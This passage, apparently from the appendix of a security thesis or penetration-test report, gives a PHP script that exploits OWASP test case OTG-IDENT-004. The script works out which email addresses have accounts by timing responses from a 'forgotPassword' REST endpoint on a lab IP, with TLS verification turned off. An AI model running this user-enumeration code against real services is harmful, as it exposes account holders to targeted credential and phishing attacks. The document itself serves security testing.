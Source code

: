 This script decides due to the response time of the an request if an email address is belonging to an existing account or not. The response is received like mentioned in the Script above. If the response is bigger than the threshold, it will be handled as valid and printed to the shell.
\begin{lstlisting}
	<?php
	
	if(!$argv[1])
	die("Please provide list of email adresses");
	$emailList = file($argv[1], FILE_IGNORE_NEW_LINES);
	
	if(!$argv[2])
	die("Please provide threshold");
	
	$threshold = floatval($argv[2]);
	
	echo "Valid Accounts:\n";
	foreach($emailList as $email)        
	if (validateEmail($email,$threshold))
	echo $email."\n";
	
	function validateEmail($email,$threshold) {
	$service_url = 'https://192.168.56.101/rest/index';
	$curl = curl_init($service_url);
	$curl_post_data = array(
	'service' => "forgotPassword",
	'email' => $email );
	
	curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
	curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
	curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($curl, CURLOPT_POST, true);
	curl_setopt($curl, CURLOPT_POSTFIELDS, $curl_post_data);
	$curl_response = curl_exec($curl);
	$responseTime = curl_getinfo($curl,CURLINFO_TOTAL_TIME);
	
	if($responseTime > $threshold)
	return true;
	else
	return false;  
	}
	
	?>
\end{lstlisting}

\chapter{PHP Scripts for exploiting Vulnerability OTG-IDENT-004}
\section{PHP Script for validating email address via response of REST Service}
\label{appendix:validate_via_response}

